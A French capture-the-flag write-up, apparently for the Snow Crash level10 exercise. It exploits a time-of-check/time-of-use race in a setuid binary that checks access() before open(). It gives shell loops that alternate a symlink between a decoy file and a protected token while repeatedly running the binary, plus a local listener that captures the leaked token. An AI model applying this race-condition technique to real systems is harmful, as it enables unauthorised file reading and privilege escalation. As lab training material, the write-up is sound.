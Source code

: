 ```shell
$>ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

$>./level10
        sends file to host if you have access to it

$>./level10 token
./level10 file host
        sends file to host if you have access to it
```

le programme semble demander un fichier et l'envoi sur un host

```shell
$>./level10 token 127.0.0.1
You don't have access to token
```
mais on a pas d'accès à token. Essayons avec un fichier accessible:

```shell
$>echo 'coucou' > /tmp/token
$>./level10 /tmp/token 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
créons un petit serveur en python (server.py) qui écoute sur le port 6969,
et qu'on execute dans un autre terminal
```shell
$>/tmp/server.py
starting up on 127.0.0.1 port 6969
waiting for a connection
```
puis sur le premier terminal 
```shell
./level10 /tmp/token 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
```

sur le second on a bien des infos provenant du programe ./level10
```shell
('connection from', ('127.0.0.1', 58417))
received ".*( )*."
received "coucou"
```
On remarquera que le programme semble envoyer '.(* *).' comme une sorte de 'header'.

Maintenant le soucis c'est qu'on ne peux pas acceder à token.

si on lance la dernière commance avec ltrace on a:
```shell
ltrace ./level10 /tmp/token 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/token", 4)                                     = 0
printf("Connecting to %s:6969 .. ", "127.0.0.1")            = 32
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                                          = 0
socket(2, 1, 0)                                             = 3
inet_addr("127.0.0.1")                                      = 0x0100007f
htons(6969, 1, 0, 0, 0)                                     = 14619
connect(3, 0xbffff70c, 16, 0, 0)                            = 0
write(3, ".*( )*.\n", 8)                                    = 8
printf("Connected!\nSending file .. "Connected!
)                      = 27
fflush(0xb7fd1a20Sending file .. )                                          = 0
open("/tmp/token", 0, 010)                                  = 4
read(4, "coucou\n", 4096)                                   = 7
write(3, "coucou\n", 7)                                     = 7
puts("wrote file!"wrote file!
)                                         = 12
+++ exited (status 12) +++
```
On remarque le programme fait appel à access... (pour verifier si les droits sont ok) puis plus loin à open, pour ouvrir vraiement.
C'est  une faille.

Il va faloir faire qu'au moment où le programme utilise *access* cela soit un fichier accessible ( un fake ) et quand il l'ouvre ce soit le vrai (token)
On va donc lancer ./level10 sur un fichier /tmp/token

Ce fichier sera, en alternance, un lien symbolique sur un fichier à nous (/tmp/fake) et le bon (~/token)

On crée le fichier fake:
```shell
echo '.*( )*.' > /tmp/fake
```
la boucle qui va alterner les liens symboliques :
```shell
(while true
    do
        ln -fs /tmp/fake /tmp/token;
        ln -fs ~/token /tmp/token;
    done)&
```
il nous faut une boucle qui va executer le programme :
```shell
(while true
    do
        ~/level10 /tmp/token 127.0.0.1 &> /dev/null
    done
    )&
```
on va aussi modifier un peut le server.py pour ne pas afficher le 'header'
On a dans les resources le fichier *server.py* et *script.sh* a mettre dans /tmp
puis a rendre executables. Ensuite on lance le *script.sh* et server.py
```shell
$>/tmp/script.sh
$>/tmp/server.py
starting up on 127.0.0.1 port 6969
received "woupa2yuojeeaaed06riuj63c"
received "woupa2yuojeeaaed06riuj63c"
...
^C
```
il nous reste à *su flag10* et *getflag*